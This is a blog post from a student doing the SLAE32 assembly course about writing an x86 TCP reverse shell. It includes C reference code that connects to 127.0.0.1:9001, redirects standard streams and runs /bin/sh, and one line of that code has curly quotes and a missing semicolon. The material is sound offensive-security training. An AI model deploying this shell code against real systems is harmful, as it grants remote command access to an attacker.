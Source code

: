 ```yaml
---
layout: post
title: "SLAE32 - 2. TCP Reverse Shell"
---
```


## Introduction
The second exercise for the slae32 course is to write a TCP reverse shell using x86. During this exercise, I noticed that a high percentage of code could be taken directly from the TCP bind shell, completed in exercise 1. However I chose to implement this from scratch without copy and pasting in order to confirm my newly learnt instructions and confirm I remembered the previous exercise and the steps taken to complete it.

## Brief Thoughts
During this exercise I performed similar steps to exercise 1, so to prevent a high amount of repetition within this post I will walk through the code once again however I will only explain specific sections of code that were not discussed during the completion of the TCP bind shell, making sure to cover any new C, system calls, wrapper changes and x86. Overall, I found implementing the reverse shell to be easier than the bind shell - but this may be because I had already written my first file in x86 so now this felt a little easier to work through. I had a little trouble making sure the python wrapper stomped out any NULL bytes, however that will be discussed later on in the post.

## Initial Planning
Similar to exercise 1, my first steps are to gather the information required to create my reverse shell - making sure I have all the required system call information and any additional documentation required to duplicate a C based reverse shell. The following C code presents the TCP reverse shell solution that I used as my reference during this exercise:

```
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    // creating our struct for use with socket sys call
    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(“127.0.0.1”)
    sa.sin_port = htons(9001);

    // first sys call
    s = socket(AF_INET, SOCK_STREAM, 0);

    // second sys call
    connect(s, (struct sockaddr *)&sa, sizeof(sa));

    // third sys call
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    
    // fourth & final sys call
    execve("/bin/sh", 0, 0);
    return 0;
}
```